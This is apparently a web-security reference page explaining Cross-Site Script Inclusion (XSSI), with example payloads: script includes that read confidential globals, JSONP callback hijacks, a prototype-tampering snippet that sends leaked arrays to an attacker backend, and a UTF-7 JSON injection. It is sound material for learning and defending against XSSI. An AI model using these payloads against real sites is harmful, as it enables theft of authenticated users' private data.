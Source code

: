 # XSSI (Cross-Site Script Inclusion)

## Basic Information

**Cross-Site Script Inclusion (XSSI)** is a vulnerability that arises from the nature of the `script` tag in HTML. Unlike most resources, which are subject to the **Same-Origin Policy (SOP)**, scripts can be included from different domains. This behavior is intended to facilitate the use of libraries and other resources hosted on different servers but also introduces a potential security risk.

### Key Characteristics of **XSSI**:

- **Bypass of SOP**: Scripts are exempt from the **Same-Origin Policy**, allowing them to be included across domains.
- **Data Exposure**: An attacker can exploit this behavior to read data loaded via the `script` tag.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** is particularly relevant for dynamic JavaScript or **JSON with Padding (JSONP)**. These technologies often use "ambient-authority" information (like cookies) for authentication. When a script request is made to a different host, these credentials (e.g., cookies) are automatically included in the request.
- **Authentication Token Leakage**: If an attacker can trick a user's browser into requesting a script from a server they control, they might be able to access sensitive information contained in these requests.

### Types

1. **Static JavaScript** - This represents the conventional form of XSSI.
2. **Static JavaScript with Authentication** - This type is distinct because it requires authentication to access.
3. **Dynamic JavaScript** - Involves JavaScript that dynamically generates content.
4. **Non-JavaScript** - Refers to vulnerabilities that do not involve JavaScript directly.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.

### Regular XSSI

In this approach, private information is embedded within a globally accessible JavaScript file. Attackers can identify these files using methods like file reading, keyword searches, or regular expressions. Once located, the script containing private information can be included in malicious content, allowing unauthorized access to sensitive data. An example exploitation technique is shown below:

```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script>
  alert(JSON.stringify(confidential_keys[0]))
</script>
```

### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI

These types of XSSI attacks involve confidential information being dynamically added to the script in response to a user's request. Detection can be performed by sending requests with and without cookies and comparing the responses. If the information differs, it may indicate the presence of confidential information. This process can be automated using tools like the [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp extension.

If confidential data is stored in a global variable, it can be exploited using similar methods to those used in Regular XSSI. However, if the confidential data is included in a JSONP response, attackers can hijack the callback function to retrieve the information. This can be done by either manipulating global objects or setting up a function to be executed by the JSONP response, as demonstrated below:

```html
<script>
  var angular = function () {
    return 1
  }
  angular.callbacks = function () {
    return 1
  }
  angular.callbacks._7 = function (leaked) {
    alert(JSON.stringify(leaked))
  }
</script>
<script
  src="https://site.tld/p?jsonp=angular.callbacks._7"
  type="text/javascript"></script>
```

```html
<script>
  leak = function (leaked) {
    alert(JSON.stringify(leaked))
  }
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```

For variables not residing in the global namespace, _prototype tampering_ can sometimes be exploited. This technique leverages JavaScript's design, where code interpretation involves traversing the prototype chain to locate the called property. By overriding certain functions, such as `Array`'s `slice`, attackers can access and leak non-global variables:

```javascript
Array.prototype.slice = function () {
  // leaks ["secret1", "secret2", "secret3"]
  sendToAttackerBackend(this)
}
```

Further details on attack vectors can be found in the work of Security Researcher [Sebastian Lekies](https://twitter.com/slekies), who maintains a list of [vectors](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI

Takeshi Terada's research introduces another form of XSSI, where Non-Script files, such as CSV, are leaked cross-origin by being included as sources in a `script` tag. Historical instances of XSSI, such as Jeremiah Grossman’s 2006 attack to read a complete Google address book and Joe Walker’s 2007 JSON data leak, highlight the severity of these threats. Additionally, Gareth Heyes describes an attack variant involving UTF-7 encoded JSON to escape the JSON format and execute scripts, effective in certain browsers:

```javascript
;[
  {
    friend: "luke",
    email:
      "+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-",
  },
]
```

```html
<script
  src="http://site.tld/json-utf7.json"
  type="text/javascript"
  charset="UTF-7"></script>
```

